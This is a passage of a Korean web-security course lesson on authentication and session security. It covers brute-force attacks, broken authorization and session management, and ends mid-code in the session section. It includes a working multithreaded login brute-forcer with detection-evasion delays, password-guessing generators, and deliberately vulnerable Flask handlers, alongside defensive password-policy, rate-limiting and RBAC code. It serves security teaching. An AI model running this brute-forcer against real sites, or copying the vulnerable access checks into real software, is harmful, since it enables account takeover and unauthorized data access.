

# 19강: 인증 및 세션 보안

## 개요
해킹보안전문가 1급 과정의 19강으로, 웹 애플리케이션의 인증과 세션 관리 보안을 다룹니다. 약한 문자열 강도(브루트포스), 불충분한 인증 및 인가, 불충분한 세션 관리, 취약한 패스워드 복구 등의 취약점을 분석하고 강력한 보안 대책을 학습합니다.

## 주요 학습 내용

### 1. 약한 문자열 강도 (Brute Force Attack)

#### 취약점 개요
**웹 애플리케이션에서 회원가입 시 안전한 패스워드 규칙이 적용되지 않아 취약한 패스워드로 회원가입이 가능할 경우** 공격자가 추측을 통한 대입 및 주변 정보를 수집하여 작성한 사전파일 통한 대입을 시도하여 사용자의 패스워드를 추출할 수 있는 취약점입니다.

- **위험도**: 중간 (사용자 계정 탈취)
- **공격 대상**: 약한 패스워드 정책을 가진 시스템

#### 브루트포스 공격 유형

##### 1. Dictionary Attack (사전 공격)
```python
# 일반적인 약한 패스워드 목록
common_passwords = [
    "123456", "password", "admin", "123456789", "qwerty",
    "abc123", "Password1", "password123", "admin123", "root",
    "user", "test", "guest", "demo", "123abc", "password1",
    "admin123", "root123", "user123", "welcome", "login"
]

# 사용자 정보 기반 패스워드 생성
def generate_personal_passwords(username, name, birth_year):
    passwords = []
    
    # 기본 정보 조합
    passwords.extend([
        username,
        username + "123",
        username + birth_year,
        name.lower(),
        name.lower() + "123",
        name.lower() + birth_year
    ])
    
    return passwords
```

##### 2. Brute Force Attack (완전 탐색)
```python
import itertools
import string

def generate_brute_force_passwords(min_length=4, max_length=8):
    """브루트포스 패스워드 생성기"""
    chars = string.ascii_lowercase + string.digits
    
    for length in range(min_length, max_length + 1):
        for password in itertools.product(chars, repeat=length):
            yield ''.join(password)

# 하이브리드 공격 (사전 + 규칙 기반)
def generate_hybrid_passwords(base_word):
    """하이브리드 패스워드 생성"""
    variations = []
    
    # 대소문자 변형
    variations.extend([
        base_word.lower(),
        base_word.upper(),
        base_word.capitalize()
    ])
    
    # 숫자 추가
    for i in range(10):
        variations.extend([
            base_word + str(i),
            str(i) + base_word,
            base_word + str(i) + str(i)
        ])
    
    # 특수문자 추가
    special_chars = ['!', '@', '#', '$', '%']
    for char in special_chars:
        variations.extend([
            base_word + char,
            char + base_word
        ])
    
    return variations
```

#### 브루트포스 공격 도구
```python
#!/usr/bin/env python3
# 웹 애플리케이션 브루트포스 공격 도구 (교육용)

import requests
import time
import threading
from queue import Queue
import itertools
import random

class WebBruteForcer:
    def __init__(self, target_url, username_list=None, password_list=None, threads=5):
        self.target_url = target_url
        self.session = requests.Session()
        self.threads = threads
        self.found_credentials = []
        
        # 요청 속도 제한
        self.delay_min = 1  # 최소 1초 대기
        self.delay_max = 3  # 최대 3초 대기
        
        # 기본 사용자명 목록
        self.default_usernames = username_list or [
            'admin', 'administrator', 'root', 'user', 'test',
            'guest', 'demo', 'webmaster', 'manager', 'operator'
        ]
        
        # 기본 패스워드 목록
        self.default_passwords = password_list or [
            'admin', 'password', '123456', 'admin123', 'password123',
            'root', 'toor', '123456789', 'qwerty', 'abc123',
            'Password1', 'welcome', 'login', 'user', 'test'
        ]
        
        # 성공 패턴 (로그인 성공 시 나타나는 문자열)
        self.success_patterns = [
            'dashboard', 'welcome', 'logout', 'profile', 'settings',
            'administration', 'control panel', 'main menu'
        ]
        
        # 실패 패턴 (로그인 실패 시 나타나는 문자열)
        self.failure_patterns = [
            'invalid', 'incorrect', 'failed', 'error', 'wrong',
            'denied', 'unauthorized', 'bad credentials'
        ]
    
    def attempt_login(self, username, password):
        """로그인 시도"""
        try:
            # 랜덤 지연 (탐지 회피)
            time.sleep(random.uniform(self.delay_min, self.delay_max))
            
            login_data = {
                'username': username,
                'password': password,
                'login': 'Login'  # 일반적인 로그인 버튼 이름
            }
            
            # POST 요청으로 로그인 시도
            response = self.session.post(
                self.target_url,
                data=login_data,
                timeout=10,
                allow_redirects=True
            )
            
            return self.analyze_response(response, username, password)
            
        except requests.RequestException as e:
            print(f"네트워크 오류: {e}")
            return False
    
    def analyze_response(self, response, username, password):
        """응답 분석하여 로그인 성공 여부 판단"""
        response_text = response.text.lower()
        
        # 1. HTTP 상태 코드 확인
        if response.status_code == 302:  # 리다이렉트 (성공 가능성)
            location = response.headers.get('Location', '')
            if any(pattern in location.lower() for pattern in self.success_patterns):
                return True
        
        # 2. 응답 내용에서 성공 패턴 확인
        success_found = any(pattern in response_text for pattern in self.success_patterns)
        failure_found = any(pattern in response_text for pattern in self.failure_patterns)
        
        if success_found and not failure_found:
            return True
        
        # 3. 응답 길이 변화 확인 (성공 시 보통 다른 페이지로 이동)
        if len(response.text) > 5000:  # 대시보드 등 복잡한 페이지
            return True
        
        # 4. 쿠키 설정 확인 (세션 쿠키 설정 시 성공 가능성)
        if 'Set-Cookie' in response.headers:
            cookies = response.headers['Set-Cookie']
            if any(keyword in cookies.lower() for keyword in ['session', 'auth', 'login']):
                return True
        
        return False
    
    def worker(self, credential_queue):
        """워커 스레드"""
        while not credential_queue.empty():
            try:
                username, password = credential_queue.get_nowait()
                
                print(f"시도 중: {username}:{password}")
                
                if self.attempt_login(username, password):
                    self.found_credentials.append((username, password))
                    print(f"[성공] 발견된 계정: {username}:{password}")
                
                credential_queue.task_done()
                
            except Exception as e:
                print(f"워커 오류: {e}")
                break
    
    def run_dictionary_attack(self):
        """사전 공격 실행"""
        print("사전 공격 시작...")
        
        # 자격증명 큐 생성
        credential_queue = Queue()
        
        # 모든 사용자명과 패스워드 조합 생성
        for username in self.default_usernames:
            for password in self.default_passwords:
                credential_queue.put((username, password))
        
        # 개인화된 패스워드 추가
        for username in self.default_usernames:
            personal_passwords = self.generate_personal_passwords(username)
            for password in personal_passwords:
                credential_queue.put((username, password))
        
        print(f"총 {credential_queue.qsize()}개의 조합을 테스트합니다.")
        
        # 스레드 시작
        threads = []
        for i in range(self.threads):
            t = threading.Thread(target=self.worker, args=(credential_queue,))
            t.start()
            threads.append(t)
        
        # 모든 스레드 완료 대기
        for t in threads:
            t.join()
        
        return self.found_credentials
    
    def generate_personal_passwords(self, username):
        """개인화된 패스워드 생성"""
        passwords = []
        
        # 사용자명 기반
        passwords.extend([
            username,
            username + '123',
            username + '2024',
            username + '@123',
            username.upper(),
            username.capitalize()
        ])
        
        # 회사/서비스명 기반 (도메인에서 추출)
        try:
            from urllib.parse import urlparse
            domain = urlparse(self.target_url).netloc
            company = domain.split('.')[0] if '.' in domain else domain
            
            passwords.extend([
                company,
                company + '123',
                company + '2024',
                company.upper(),
                company.capitalize()
            ])
        except:
            pass
        
        return passwords
    
    def check_account_lockout(self, test_username='testuser123'):
        """계정 잠금 정책 확인"""
        print("계정 잠금 정책 확인 중...")
        
        # 연속으로 틀린 패스워드 시도
        for i in range(10):
            response = self.attempt_login(test_username, f'wrongpass{i}')
            
            if 'locked' in response or 'temporarily disabled' in str(response):
                print(f"계정 잠금 감지: {i+1}회 시도 후 잠김")
                return i + 1
        
        print("계정 잠금 정책이 설정되지 않았습니다.")
        return None
    
    def generate_report(self):
        """브루트포스 공격 결과 보고서"""
        report = f"""
=== 브루트포스 공격 결과 보고서 ===
대상 URL: {self.target_url}
공격 시간: {time.strftime('%Y-%m-%d %H:%M:%S')}
사용 스레드: {self.threads}개

발견된 계정: {len(self.found_credentials)}개
"""
        
        if self.found_credentials:
            report += "\n취약한 계정 목록:\n"
            for username, password in self.found_credentials:
                report += f"  - {username}:{password}\n"
        else:
            report += "\n발견된 취약한 계정이 없습니다.\n"
        
        report += """
=== 보안 권장사항 ===
1. 강력한 패스워드 정책을 적용하세요.
2. 로그인 실패 시 계정 잠금 기능을 활성화하세요.
3. 2단계 인증(2FA)을 도입하세요.
4. 로그인 시도에 대한 모니터링을 강화하세요.
5. CAPTCHA를 통해 자동화 공격을 방지하세요.
"""
        
        return report

# 사용 예시 (교육 목적)
if __name__ == "__main__":
    # 주의: 실제 운영 중인 시스템에 대해서는 수행하지 마세요!
    target = "http://testphp.vulnweb.com/login.php"
    
    brute_forcer = WebBruteForcer(target, threads=3)  # 낮은 스레드 수 사용
    
    # 계정 잠금 정책 확인
    lockout_threshold = brute_forcer.check_account_lockout()
    
    # 사전 공격 실행
    found_accounts = brute_forcer.run_dictionary_attack()
    
    # 결과 보고서
    report = brute_forcer.generate_report()
    print(report)
    
    # 보고서 파일 저장
    with open('brute_force_report.txt', 'w', encoding='utf-8') as f:
        f.write(report)
```

#### 대응 방안

##### 1. 강력한 패스워드 정책
```python
import re
import hashlib
import secrets

class PasswordPolicy:
    def __init__(self):
        self.min_length = 8
        self.max_length = 128
        self.require_uppercase = True
        self.require_lowercase = True
        self.require_digits = True
        self.require_special = True
        self.special_chars = "!@#$%^&*()_+-=[]{}|;:,.<>?"
        
        # 금지된 패스워드 목록
        self.forbidden_passwords = [
            'password', '123456', 'admin', 'qwerty', 'abc123',
            'password123', 'admin123', '123456789', 'welcome',
            'login', 'user', 'test', 'guest', 'demo'
        ]
    
    def validate_password(self, password, username=None, user_info=None):
        """패스워드 유효성 검사"""
        errors = []
        
        # 길이 검사
        if len(password) < self.min_length:
            errors.append(f"패스워드는 최소 {self.min_length}자 이상이어야 합니다.")
        
        if len(password) > self.max_length:
            errors.append(f"패스워드는 최대 {self.max_length}자 이하여야 합니다.")
        
        # 문자 유형 검사
        if self.require_uppercase and not re.search(r'[A-Z]', password):
            errors.append("패스워드에 대문자가 포함되어야 합니다.")
        
        if self.require_lowercase and not re.search(r'[a-z]', password):
            errors.append("패스워드에 소문자가 포함되어야 합니다.")
        
        if self.require_digits and not re.search(r'\d', password):
            errors.append("패스워드에 숫자가 포함되어야 합니다.")
        
        if self.require_special and not re.search(f'[{re.escape(self.special_chars)}]', password):
            errors.append("패스워드에 특수문자가 포함되어야 합니다.")
        
        # 금지된 패스워드 검사
        if password.lower() in [p.lower() for p in self.forbidden_passwords]:
            errors.append("일반적으로 사용되는 패스워드는 사용할 수 없습니다.")
        
        # 사용자 정보와 유사성 검사
        if username and username.lower() in password.lower():
            errors.append("패스워드에 사용자명이 포함될 수 없습니다.")
        
        if user_info:
            for info in [user_info.get('name', ''), user_info.get('email', '')]:
                if info and len(info) > 3 and info.lower() in password.lower():
                    errors.append("패스워드에 개인정보가 포함될 수 없습니다.")
        
        # 연속된 문자 검사
        if self._has_sequential_chars(password):
            errors.append("연속된 문자나 숫자는 사용할 수 없습니다.")
        
        # 반복 문자 검사
        if self._has_repeated_chars(password):
            errors.append("같은 문자의 3회 이상 반복은 사용할 수 없습니다.")
        
        return len(errors) == 0, errors
    
    def _has_sequential_chars(self, password):
        """연속된 문자 확인"""
        sequences = [
            '123456789', 'abcdefghij', 'qwertyuiop'
        ]
        
        for seq in sequences:
            for i in range(len(seq) - 2):
                if seq[i:i+3].lower() in password.lower():
                    return True
        
        return False
    
    def _has_repeated_chars(self, password):
        """반복 문자 확인"""
        count = 1
        for i in range(1, len(password)):
            if password[i] == password[i-1]:
                count += 1
                if count >= 3:
                    return True
            else:
                count = 1
        
        return False
    
    def generate_secure_password(self, length=12):
        """안전한 패스워드 생성"""
        if length < self.min_length:
            length = self.min_length
        
        # 각 문자 유형에서 최소 하나씩 포함
        password_chars = []
        
        if self.require_uppercase:
            password_chars.append(secrets.choice('ABCDEFGHIJKLMNOPQRSTUVWXYZ'))
        
        if self.require_lowercase:
            password_chars.append(secrets.choice('abcdefghijklmnopqrstuvwxyz'))
        
        if self.require_digits:
            password_chars.append(secrets.choice('0123456789'))
        
        if self.require_special:
            password_chars.append(secrets.choice(self.special_chars))
        
        # 나머지 문자 추가
        all_chars = ''
        if self.require_uppercase:
            all_chars += 'ABCDEFGHIJKLMNOPQRSTUVWXYZ'
        if self.require_lowercase:
            all_chars += 'abcdefghijklmnopqrstuvwxyz'
        if self.require_digits:
            all_chars += '0123456789'
        if self.require_special:
            all_chars += self.special_chars
        
        while len(password_chars) < length:
            password_chars.append(secrets.choice(all_chars))
        
        # 문자 순서 섞기
        secrets.SystemRandom().shuffle(password_chars)
        
        return ''.join(password_chars)
    
    def calculate_password_strength(self, password):
        """패스워드 강도 계산"""
        score = 0
        feedback = []
        
        # 길이 점수
        if len(password) >= 12:
            score += 25
        elif len(password) >= 8:
            score += 15
        else:
            feedback.append("길이가 너무 짧습니다")
        
        # 문자 유형 점수
        if re.search(r'[a-z]', password):
            score += 15
        else:
            feedback.append("소문자 추가 필요")
        
        if re.search(r'[A-Z]', password):
            score += 15
        else:
            feedback.append("대문자 추가 필요")
        
        if re.search(r'\d', password):
            score += 15
        else:
            feedback.append("숫자 추가 필요")
        
        if re.search(f'[{re.escape(self.special_chars)}]', password):
            score += 20
        else:
            feedback.append("특수문자 추가 필요")
        
        # 복잡성 보너스
        unique_chars = len(set(password))
        if unique_chars >= len(password) * 0.8:
            score += 10
        
        # 강도 등급 결정
        if score >= 80:
            strength = "매우 강함"
        elif score >= 60:
            strength = "강함"
        elif score >= 40:
            strength = "보통"
        elif score >= 20:
            strength = "약함"
        else:
            strength = "매우 약함"
        
        return {
            'score': score,
            'strength': strength,
            'feedback': feedback
        }

# 사용 예시
if __name__ == "__main__":
    policy = PasswordPolicy()
    
    # 패스워드 검증
    test_passwords = [
        "password123",  # 약함
        "MySecure@Pass123",  # 강함
        "admin",  # 매우 약함
        "P@ssw0rd!2024"  # 매우 강함
    ]
    
    for pwd in test_passwords:
        is_valid, errors = policy.validate_password(pwd, "testuser")
        strength = policy.calculate_password_strength(pwd)
        
        print(f"\n패스워드: {pwd}")
        print(f"유효성: {'통과' if is_valid else '실패'}")
        print(f"강도: {strength['strength']} ({strength['score']}/100)")
        
        if errors:
            print("오류:")
            for error in errors:
                print(f"  - {error}")
        
        if strength['feedback']:
            print("개선사항:")
            for feedback in strength['feedback']:
                print(f"  - {feedback}")
    
    # 안전한 패스워드 생성
    print(f"\n생성된 안전한 패스워드: {policy.generate_secure_password(16)}")
```

##### 2. 계정 잠금 및 속도 제한
```python
import time
from collections import defaultdict, deque
import redis
import hashlib

class LoginRateLimiter:
    def __init__(self, redis_client=None):
        self.redis_client = redis_client or redis.Redis(host='localhost', port=6379, db=0)
        
        # 설정
        self.max_attempts = 5  # 최대 시도 횟수
        self.lockout_duration = 900  # 15분 잠금
        self.rate_window = 300  # 5분 윈도우
        
        # IP 기반 제한
        self.ip_max_attempts = 20  # IP당 최대 시도
        self.ip_rate_window = 3600  # 1시간 윈도우
    
    def is_account_locked(self, username):
        """계정 잠금 상태 확인"""
        key = f"account_lock:{username}"
        return self.redis_client.exists(key)
    
    def is_ip_blocked(self, ip_address):
        """IP 차단 상태 확인"""
        key = f"ip_block:{ip_address}"
        return self.redis_client.exists(key)
    
    def record_failed_attempt(self, username, ip_address):
        """로그인 실패 기록"""
        current_time = int(time.time())
        
        # 계정별 실패 기록
        account_key = f"login_attempts:{username}"
        self.redis_client.lpush(account_key, current_time)
        self.redis_client.expire(account_key, self.rate_window)
        
        # IP별 실패 기록
        ip_key = f"ip_attempts:{ip_address}"
        self.redis_client.lpush(ip_key, current_time)
        self.redis_client.expire(ip_key, self.ip_rate_window)
        
        # 잠금 여부 확인
        self._check_and_lock_account(username)
        self._check_and_block_ip(ip_address)
    
    def _check_and_lock_account(self, username):
        """계정 잠금 확인 및 처리"""
        account_key = f"login_attempts:{username}"
        attempts = self.redis_client.lrange(account_key, 0, -1)
        
        if len(attempts) >= self.max_attempts:
            # 계정 잠금
            lock_key = f"account_lock:{username}"
            self.redis_client.setex(lock_key, self.lockout_duration, "locked")
            
            # 알림 발송
            self._send_account_lock_notification(username)
    
    def _check_and_block_ip(self, ip_address):
        """IP 차단 확인 및 처리"""
        ip_key = f"ip_attempts:{ip_address}"
        attempts = self.redis_client.lrange(ip_key, 0, -1)
        
        if len(attempts) >= self.ip_max_attempts:
            # IP 차단
            block_key = f"ip_block:{ip_address}"
            self.redis_client.setex(block_key, self.lockout_duration, "blocked")
    
    def clear_failed_attempts(self, username):
        """로그인 성공 시 실패 기록 삭제"""
        account_key = f"login_attempts:{username}"
        self.redis_client.delete(account_key)
    
    def _send_account_lock_notification(self, username):
        """계정 잠금 알림 발송"""
        # 실제 구현에서는 이메일/SMS 발송
        print(f"[보안 알림] 계정 '{username}'이 잠금되었습니다.")
    
    def get_remaining_attempts(self, username):
        """남은 시도 횟수 확인"""
        if self.is_account_locked(username):
            return 0
        
        account_key = f"login_attempts:{username}"
        current_attempts = self.redis_client.llen(account_key)
        
        return max(0, self.max_attempts - current_attempts)
    
    def unlock_account(self, username, admin_user):
        """관리자에 의한 계정 잠금 해제"""
        lock_key = f"account_lock:{username}"
        attempts_key = f"login_attempts:{username}"
        
        self.redis_client.delete(lock_key)
        self.redis_client.delete(attempts_key)
        
        print(f"계정 '{username}'이 '{admin_user}'에 의해 잠금 해제되었습니다.")

# Flask 애플리케이션에서 사용 예시
from flask import Flask, request, jsonify, session
import bcrypt

app = Flask(__name__)
app.secret_key = 'your-secret-key'
rate_limiter = LoginRateLimiter()

@app.route('/login', methods=['POST'])
def login():
    username = request.json.get('username')
    password = request.json.get('password')
    ip_address = request.remote_addr
    
    # 계정 잠금 확인
    if rate_limiter.is_account_locked(username):
        return jsonify({
            'success': False,
            'message': '계정이 일시적으로 잠금되었습니다. 잠시 후 다시 시도해주세요.'
        }), 429
    
    # IP 차단 확인
    if rate_limiter.is_ip_blocked(ip_address):
        return jsonify({
            'success': False,
            'message': '너무 많은 로그인 시도로 인해 접근이 차단되었습니다.'
        }), 429
    
    # 사용자 인증
    user = authenticate_user(username, password)
    
    if user:
        # 로그인 성공
        rate_limiter.clear_failed_attempts(username)
        session['user_id'] = user['id']
        session['username'] = username
        
        return jsonify({
            'success': True,
            'message': '로그인 성공'
        })
    
    else:
        # 로그인 실패
        rate_limiter.record_failed_attempt(username, ip_address)
        remaining = rate_limiter.get_remaining_attempts(username)
        
        return jsonify({
            'success': False,
            'message': f'로그인 실패. 남은 시도 횟수: {remaining}회',
            'remaining_attempts': remaining
        }), 401

def authenticate_user(username, password):
    """사용자 인증 (예시)"""
    # 실제 구현에서는 데이터베이스에서 사용자 정보 조회
    stored_password_hash = get_user_password_hash(username)
    
    if stored_password_hash and bcrypt.checkpw(password.encode('utf-8'), stored_password_hash):
        return {'id': 1, 'username': username}
    
    return None
```

### 2. 불충분한 인증 및 인가 (Insufficient Authentication & Authorization)

#### 취약점 개요
**웹 애플리케이션에서 개인정보 수정 페이지나 통합 로그인(SSO)과 같은 곳에서 사용자 인증이 미흡(아이디로 인증)할 경우** 공격자가 파라미터로 전달되는 값을 수정하여 사용자 도용 및 개인정보 노출 문제가 발생할 수 있는 취약점입니다.

#### 인증과 인가의 차이


#### 일반적인 인증/인가 취약점

##### 1. 수직 권한 상승 (Vertical Privilege Escalation)
```python
# 취약한 예시: URL 파라미터로 관리자 기능 접근
@app.route('/admin/users')
def admin_users():
    # 인증만 확인하고 관리자 권한은 확인하지 않음
    if 'user_id' not in session:
        return redirect('/login')
    
    # 위험: 모든 로그인 사용자가 관리자 기능 접근 가능
    users = get_all_users()
    return render_template('admin_users.html', users=users)

# 안전한 예시: 역할 기반 접근 제어
@app.route('/admin/users')
@require_role('admin')  # 데코레이터로 권한 확인
def admin_users():
    users = get_all_users()
    return render_template('admin_users.html', users=users)

def require_role(required_role):
    def decorator(f):
        @wraps(f)
        def decorated_function(*args, **kwargs):
            if 'user_id' not in session:
                return redirect('/login')
            
            user = get_user_by_id(session['user_id'])
            if not user or user.role != required_role:
                abort(403)  # Forbidden
            
            return f(*args, **kwargs)
        return decorated_function
    return decorator
```

##### 2. 수평 권한 상승 (Horizontal Privilege Escalation)
```python
# 취약한 예시: 다른 사용자의 정보에 접근
@app.route('/profile/<int:user_id>')
def view_profile(user_id):
    if 'user_id' not in session:
        return redirect('/login')
    
    # 위험: 로그인한 사용자가 다른 사용자 프로필 접근 가능
    user = get_user_by_id(user_id)
    return render_template('profile.html', user=user)

# 안전한 예시: 소유권 확인
@app.route('/profile/<int:user_id>')
def view_profile(user_id):
    if 'user_id' not in session:
        return redirect('/login')
    
    # 자신의 프로필이거나 관리자인 경우만 접근 허용
    current_user_id = session['user_id']
    if user_id != current_user_id:
        current_user = get_user_by_id(current_user_id)
        if not current_user or current_user.role != 'admin':
            abort(403)
    
    user = get_user_by_id(user_id)
    return render_template('profile.html', user=user)
```

#### 포괄적인 인증/인가 시스템
```python
#!/usr/bin/env python3
# 종합적인 인증 및 인가 시스템

from functools import wraps
from flask import Flask, session, request, jsonify, abort
import jwt
import bcrypt
from datetime import datetime, timedelta
import enum

class UserRole(enum.Enum):
    GUEST = "guest"
    USER = "user"
    MODERATOR = "moderator"
    ADMIN = "admin"
    SUPERADMIN = "superadmin"

class Permission(enum.Enum):
    READ = "read"
    WRITE = "write"
    DELETE = "delete"
    ADMIN = "admin"
    SUPERADMIN = "superadmin"

class AuthenticationManager:
    def __init__(self, secret_key, token_expiry_hours=24):
        self.secret_key = secret_key
        self.token_expiry_hours = token_expiry_hours
        
        # 역할별 권한 매핑
        self.role_permissions = {
            UserRole.GUEST: [Permission.READ],
            UserRole.USER: [Permission.READ, Permission.WRITE],
            UserRole.MODERATOR: [Permission.READ, Permission.WRITE, Permission.DELETE],
            UserRole.ADMIN: [Permission.READ, Permission.WRITE, Permission.DELETE, Permission.ADMIN],
            UserRole.SUPERADMIN: list(Permission)
        }
    
    def hash_password(self, password):
        """패스워드 해시화"""
        salt = bcrypt.gensalt()
        return bcrypt.hashpw(password.encode('utf-8'), salt)
    
    def verify_password(self, password, hashed):
        """패스워드 검증"""
        return bcrypt.checkpw(password.encode('utf-8'), hashed)
    
    def generate_token(self, user_id, role, additional_claims=None):
        """JWT 토큰 생성"""
        now = datetime.utcnow()
        payload = {
            'user_id': user_id,
            'role': role.value,
            'iat': now,
            'exp': now + timedelta(hours=self.token_expiry_hours),
            'jti': f"{user_id}_{int(now.timestamp())}"  # Token ID
        }
        
        if additional_claims:
            payload.update(additional_claims)
        
        return jwt.encode(payload, self.secret_key, algorithm='HS256')
    
    def verify_token(self, token):
        """JWT 토큰 검증"""
        try:
            payload = jwt.decode(token, self.secret_key, algorithms=['HS256'])
            return payload
        except jwt.ExpiredSignatureError:
            raise Exception("토큰이 만료되었습니다")
        except jwt.InvalidTokenError:
            raise Exception("유효하지 않은 토큰입니다")
    
    def has_permission(self, user_role, required_permission):
        """권한 확인"""
        if isinstance(user_role, str):
            user_role = UserRole(user_role)
        
        if isinstance(required_permission, str):
            required_permission = Permission(required_permission)
        
        user_permissions = self.role_permissions.get(user_role, [])
        return required_permission in user_permissions
    
    def has_resource_access(self, user_id, resource_owner_id, user_role):
        """리소스 접근 권한 확인"""
        # 자신의 리소스이거나 관리자 권한이 있는 경우
        if user_id == resource_owner_id:
            return True
        
        if isinstance(user_role, str):
            user_role = UserRole(user_role)
        
        # 관리자 이상의 권한을 가진 경우
        admin_roles = [UserRole.ADMIN, UserRole.SUPERADMIN]
        return user_role in admin_roles

# Flask 데코레이터들
def require_auth(auth_manager):
    """인증 필수 데코레이터"""
    def decorator(f):
        @wraps(f)
        def decorated_function(*args, **kwargs):
            token = request.headers.get('Authorization')
            if not token:
                return jsonify({'error': '인증 토큰이 필요합니다'}), 401
            
            try:
                if token.startswith('Bearer '):
                    token = token[7:]
                
                payload = auth_manager.verify_token(token)
                request.current_user = payload
                
            except Exception as e:
                return jsonify({'error': str(e)}), 401
            
            return f(*args, **kwargs)
        return decorated_function
    return decorator

def require_permission(auth_manager, permission):
    """권한 필수 데코레이터"""
    def decorator(f):
        @wraps(f)
        def decorated_function(*args, **kwargs):
            if not hasattr(request, 'current_user'):
                return jsonify({'error': '인증이 필요합니다'}), 401
            
            user_role = request.current_user.get('role')
            if not auth_manager.has_permission(user_role, permission):
                return jsonify({'error': '권한이 부족합니다'}), 403
            
            return f(*args, **kwargs)
        return decorated_function
    return decorator

def require_resource_access(auth_manager, resource_id_param='resource_id'):
    """리소스 접근 권한 데코레이터"""
    def decorator(f):
        @wraps(f)
        def decorated_function(*args, **kwargs):
            if not hasattr(request, 'current_user'):
                return jsonify({'error': '인증이 필요합니다'}), 401
            
            user_id = request.current_user.get('user_id')
            user_role = request.current_user.get('role')
            
            # URL 파라미터에서 리소스 소유자 ID 추출
            resource_owner_id = kwargs.get(resource_id_param) or request.args.get(resource_id_param)
            
            if not resource_owner_id:
                return jsonify({'error': '리소스 ID가 필요합니다'}), 400
            
            if not auth_manager.has_resource_access(user_id, int(resource_owner_id), user_role):
                return jsonify({'error': '해당 리소스에 접근할 권한이 없습니다'}), 403
            
            return f(*args, **kwargs)
        return decorated_function
    return decorator

# 사용 예시
app = Flask(__name__)
auth_manager = AuthenticationManager('your-secret-key')

@app.route('/api/login', methods=['POST'])
def login():
    data = request.get_json()
    username = data.get('username')
    password = data.get('password')
    
    # 사용자 인증 (데이터베이스에서 확인)
    user = authenticate_user(username, password)
    
    if user:
        token = auth_manager.generate_token(
            user_id=user['id'],
            role=UserRole(user['role']),
            additional_claims={'username': user['username']}
        )
        
        return jsonify({
            'success': True,
            'token': token,
            'user': {
                'id': user['id'],
                'username': user['username'],
                'role': user['role']
            }
        })
    
    return jsonify({'error': '인증 실패'}), 401

@app.route('/api/profile/<int:user_id>')
@require_auth(auth_manager)
@require_resource_access(auth_manager, 'user_id')
def get_user_profile(user_id):
    """사용자 프로필 조회 (본인 또는 관리자만 접근 가능)"""
    user = get_user_by_id(user_id)
    return jsonify({'user': user})

@app.route('/api/admin/users')
@require_auth(auth_manager)
@require_permission(auth_manager, Permission.ADMIN)
def get_all_users():
    """모든 사용자 조회 (관리자만 접근 가능)"""
    users = get_users_list()
    return jsonify({'users': users})

@app.route('/api/posts/<int:post_id>/delete', methods=['DELETE'])
@require_auth(auth_manager)
@require_permission(auth_manager, Permission.DELETE)
def delete_post(post_id):
    """게시글 삭제 (삭제 권한 필요)"""
    post = get_post_by_id(post_id)
    if not post:
        return jsonify({'error': '게시글을 찾을 수 없습니다'}), 404
    
    # 작성자 본인이거나 관리자인지 확인
    current_user_id = request.current_user.get('user_id')
    user_role = UserRole(request.current_user.get('role'))
    
    if post['author_id'] != current_user_id and user_role not in [UserRole.ADMIN, UserRole.SUPERADMIN]:
        return jsonify({'error': '게시글 삭제 권한이 없습니다'}), 403
    
    delete_post_by_id(post_id)
    return jsonify({'success': True})

def authenticate_user(username, password):
    """사용자 인증 함수 (예시)"""
    # 실제 구현에서는 데이터베이스에서 사용자 정보 조회
    users_db = {
        'admin': {
            'id': 1,
            'username': 'admin',
            'password_hash': auth_manager.hash_password('admin123'),
            'role': 'admin'
        },
        'user1': {
            'id': 2,
            'username': 'user1',
            'password_hash': auth_manager.hash_password('user123'),
            'role': 'user'
        }
    }
    
    user = users_db.get(username)
    if user and auth_manager.verify_password(password, user['password_hash']):
        return user
    
    return None

if __name__ == "__main__":
    app.run(debug=True)
```

### 3. 불충분한 세션 관리 (Insufficient Session Management)

#### 취약점 개요
**웹 애플리케이션에서 사용자가 로그인을 할 경우 매번 동일한 세션 ID(일정한 패턴이 존재)를 발급하거나 세션 타임아웃을 너무 길게 설정하였을 경우** 공격자가 다른 사용자의 세션을 재사용하여 해당 사용자의 권한을 탈취할 수 있는 취약점입니다.

#### 세션 관리 모범 사례
```python
#!/usr/bin/env python3
# 안전한 세션 관리 시스템

import os
import time
import hashlib
import secrets
import json
from datetime import datetime, timedelta
import redis
from flask import Flask, request, session, jsonify

class SecureSessionManager:
    def __init__(self, redis_client=None):
        self.redis_client = redis_client or redis.Redis(host='localhost', port=6379, db=1)
        
        # 세션 설정
